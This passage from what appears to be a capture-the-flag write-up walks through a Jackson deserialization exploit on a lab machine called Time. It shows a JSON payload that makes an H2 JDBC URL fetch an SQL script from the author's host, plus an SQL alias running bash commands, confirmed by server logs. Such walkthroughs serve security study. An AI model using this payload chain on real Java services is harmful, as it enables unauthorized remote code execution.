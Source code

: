 #### Test

I’ll update the URL to point to my VM:

    
    
    ["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.8/test.sql'"}]
    

On submitting to Time, I get a request at my local HTTP server:

    
    
    oxdf@parrot$ sudo python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.214 - - [09/Feb/2021 19:23:33] code 404, message File not found
    10.10.10.214 - - [09/Feb/2021 19:23:33] "GET /test.sql HTTP/1.1" 4
    

It worked!

#### Weaponize - POC

There’s a sample SQL script used to weaponize this in the post as well:

    
    
    CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
    	String[] command = {"bash", "-c", cmd};
    	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
    	return s.hasNext() ? s.next() : "";  }
    $$;
    CALL SHELLEXEC('id > exploited.txt')
    

The init script can’t run Java, only SQL statements. However, that can be
worked around, as within SQL, it is allowed to define an alias containing Java
code. In the example about, it defines `SHELLEXEC` using Java code to execute
a command, and then in the last line calls it with a payload to write the
output of `id` to a file.

Since I can’t read a file from Time (well, maybe, but really no - see Beyond
Root), I’ll try a `ping`:

    
    
    CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
            String[] command = {"bash", "-c", cmd};
            java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
            return s.hasNext() ? s.next() : "";  }
    $$;
    CALL SHELLEXEC('ping -c 1 10.10.14.8')
    

I’ll update the URL in the JSON, and submit:

    
    
    10.10.10.214 - - [09/Feb/2021 19:24:54] "GET /ping.sql HTTP/1.1" 200 -
    